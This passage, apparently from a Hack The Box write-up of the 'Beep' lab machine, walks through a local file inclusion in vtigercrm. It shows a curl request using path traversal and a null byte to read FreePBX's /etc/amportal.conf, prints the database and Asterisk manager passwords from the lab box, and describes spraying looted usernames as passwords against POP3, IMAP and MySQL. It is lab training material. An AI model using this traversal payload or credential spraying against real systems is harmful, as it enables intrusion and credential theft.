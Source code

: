Wow it works 

So lets see what we can loot or exploit from this vulnerability

While I loot i save the list of users in a file then run it against pop3,imap,&mysql using the userlist as password

The lfi can't read .php,.log files 

So after a while i checked the nmap scan and saw a service running on it 

```
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
```

Thats a telecom service used by FreePBX, an open-source web-based graphical user interface (GUI) that controls and manages Asterisk

Its credential is stored in /etc/amportal.conf from research. 

Now i can try to leak it 

```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ curl -k https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00                    
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

```
